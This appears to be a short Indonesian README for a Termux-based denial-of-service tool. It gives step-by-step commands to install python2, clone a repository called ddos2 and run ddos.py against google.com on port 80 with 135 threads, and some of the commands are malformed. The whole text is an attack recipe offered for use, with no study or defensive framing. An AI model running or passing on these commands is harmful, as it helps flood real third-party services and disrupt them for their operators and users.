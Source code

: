 \\\\Menggunakan DDOS dengan termux by kumpulan remaja <Edit by tiergans>

kode perintah 

pkg update && pkg upgrade
pkg git 
pkg python2
git clone
git clone https://github.com/TierGans/ddos2
cd ddos2
python2 ddos.py -s google.com -p 80 -t 135 
